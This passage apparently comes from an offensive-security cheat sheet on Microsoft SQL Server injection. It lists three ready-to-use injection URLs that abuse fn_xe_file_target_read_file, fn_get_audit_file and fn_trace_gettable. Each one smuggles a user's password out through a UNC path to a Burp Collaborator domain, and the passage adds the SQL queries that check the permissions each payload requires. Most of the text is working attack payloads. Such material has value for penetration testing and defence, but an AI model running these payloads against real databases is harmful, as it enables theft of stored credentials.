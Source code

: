 ![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/6.png)

## SSRF

### `fn_xe_file_target_read_file`

```
https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))
```

![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/3.png)

**Permissions:** Requires **`VIEW SERVER STATE`** permission on the server.

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='VIEW SERVER STATE';
# Or doing
Use master;
EXEC sp_helprotect 'fn_xe_file_target_read_file';
```

### `fn_get_audit_file`

```
https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))
```

![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/2.png)

**Permissions:** Requires the **`CONTROL SERVER`** permission.

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_get_audit_file';
```

### `fn_trace_gettabe`

```
https://vuln.app/ getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))
```

![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/1.png)

**Permissions:** Requires the **`CONTROL SERVER`** permission.
